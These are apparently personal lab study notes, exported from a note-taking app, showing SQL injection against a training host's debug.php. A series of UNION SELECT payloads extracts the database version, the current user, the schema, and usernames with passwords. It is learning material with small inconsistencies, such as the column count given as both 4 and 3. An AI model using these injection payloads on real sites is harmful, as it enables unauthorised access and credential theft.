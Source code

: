 9.4.5.9

# 9.4.5.9
## 9.4.5.9.1. Enumerate the structure of the database using SQL injection.

In this example, we will use the debug.php to demonstrate this. We input the following and see an SQL syntax error, which might signal the presence of SQLi vulnerability.
`http://192.168.214.10/debug.php?id='`
![fb752a781aef1452d9cc82e39d94b887.png](:/308883c46919478f964c46370e24cfb3)

### Column Number enumeration
Observe `http://192.168.214.10/debug.php?id=1 order by 1`
![d378d7911c4a01f61a88e09bea402a65.png](:/fc8d6f2159b445ceaea6025678867eea)

Open Burpsuite and send the same order by 1 record to Repeater. Notice it is percent encoded. Check the response for 'Error'. We find no errors.
![e5e0eed1430ba3956968d27fc551e432.png](:/8164baf33bbe4d9681430e52afe1d0c5)

Change the GET request to order by 2. Again no errors.
![c5111ace93bafe0af10e145dc7c2bc6b.png](:/bd4c5085c8e042b5a5bbf0869995a64d)

Change the GET request to order by 3. Again no errors.
![bb58676acfcfe555c016af66feedd05e.png](:/d76550d2a5034a32a0d6da63ebf6a9b5)

Change the GET request to order by 4. We find an error. This means that there are 4 columns in this query.
![69c447b330cb11e32a54c6e76653dc08.png](:/f59182f13ad94e169e1e3471ba57428d)

### Understand the layout of the output
We know there are 3 columns, and we observe the "1" does not render, but "2" renders in the username column, and "3" renders in the comment column. The comment column is suitable for our exploit because it has more space.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, 3`
![658a42d13ac69162325da9d77cb067f9.png](:/5c5ee94bed9f44fba3ee65ba009dcaff)

### Extracting data from the database
Get the version
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, @@version`
![246e1bf2cdc5d997fa7a930c65caf88b.png](:/d2c6d36c41c24d4a87cb92ca159c09fd)

Get the current database user
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, user()`
![c979f2f58f7dfb5ee3cf65737dc26c12.png](:/978f30817b1e4e728677f009c62887fe)



## 9.4.5.9.2. Understand how and why you can pull data from your injected commands and have it displayed on the screen.



## 9.4.5.9.3. Extract all users and associated passwords from the database.
Get the database tables and column structures. The 'usernames' table looks interesting.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`
![ffc5866d0b4851a3e022b2ec439c409e.png](:/d0e7b917bafb4c94bd340da48f1e598b)

Get the column names from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`
![2d207679a9f45767765f2c709e8147fd.png](:/81d763083e0443728ef6097ac3c4baaf)

Display the usernames and passwords from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, username, password from users`
![e38944bb26a68efa8cbce56b79738961.png](:/640ea20273ed41148e143566428932fa)



id: a87cb5fb08e642e1a932e0ea4211320e
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:39:26.875Z
updated_time: 2020-09-21T23:28:46.232Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:39:26.875Z
user_updated_time: 2020-09-21T23:28:46.232Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1